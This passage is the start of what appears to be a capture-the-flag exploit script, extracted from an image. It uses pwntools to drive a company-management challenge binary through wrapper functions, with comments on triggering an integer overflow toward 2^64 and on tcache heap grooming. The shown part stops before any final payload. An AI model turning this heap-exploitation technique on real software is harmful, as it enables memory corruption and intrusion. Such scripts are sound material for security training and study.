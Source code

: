 ```python
    payload = b"sell_company "
    payload += name
    p.sendline(payload)
    p.recvuntil(b"Success")

def add_project(company: bytes, name: bytes, profit: int):
    payload = b"add_project "
    payload += company + b" "
    payload += name + b" "
    payload += str(profit).encode()
    p.sendline(payload)
    p.recvuntil(b"Success")

def remove_project(company: bytes, name: bytes):
    payload = b"remove_project "
    payload += company + b" "
    payload += name
    p.sendline(payload)
    p.recvuntil(b"Success")

def hire_worker(company: bytes, project: bytes, name: bytes, salary: int):
    payload = b"hire_worker "
    payload += company + b" "
    payload += project + b" "
    payload += name + b" "
    payload += str(salary).encode()
    p.sendline(payload)
    p.recvuntil(b"Success")

def fire_worker(name: bytes):
    payload = b"fire_worker "
    payload += name
    p.sendline(payload)
    p.recvuntil(b"Success")

def move_worker(name: bytes, new_project: bytes):
    payload = b"move_worker "
    payload += name + b" "
    payload += new_project + b" "
    p.sendline(payload)

def worker_info(name: bytes):
    payload = b"worker_info "
    payload += name
    p.sendline(payload)
    p.recvuntil(b"Worker details:")
    p.recvline()

def elapse_week():
    p.sendline(b"elapse_week")

# good luck pwning :)

# i love desmos
# 1000 + (P * r^x - w * x) * t - 2^64 = 0
# twiddle with the values until x-intercept is close to whole number (43)
# then tweak for error by calculating difference to be made up after elapse_week
add_company(b"target-c", 1000 + 1752 - 500)

# tcache
for i in range(7):
    add_project(b"target-c", b"dummy" + str(i).encode(), 500)

```